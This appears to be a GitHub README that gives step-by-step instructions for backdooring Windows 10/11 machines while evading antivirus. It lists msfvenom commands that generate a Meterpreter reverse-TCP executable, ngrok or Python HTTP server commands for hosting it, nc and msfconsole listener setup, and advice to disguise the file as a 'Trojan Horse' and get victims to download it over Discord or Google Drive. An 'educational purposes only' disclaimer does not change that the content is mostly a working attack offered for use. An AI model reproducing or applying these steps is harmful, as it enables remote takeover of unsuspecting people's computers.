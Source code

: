 # Windows 11/10 Evade AV & Backdoor

#### **NOTE: For educational purposes only!**
#### **NOTE: Some Meterpreter commands may upset Defender.**
#### **NOTE: User must accept CMD prompt to run file. Working on a way to bypass this with send.keys() or another method.**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP_ADDRESS] LPORT=53 -a x86 -f exe -o (File_Name).exe
4. **Setup server in files directory:** <br>
**Using ngrok for remote, or python http server for local testing** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok for remote, or python http server for local testing
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 53 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 53) <br>
msf exploit(handler) > exploit <br>
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
  
# Demonstration Video
[![Click Me](https://img.youtube.com/vi/hwz77o8YMUA&t/0.jpg)](https://www.youtube.com/watch?v=hwz77o8YMUA&t)


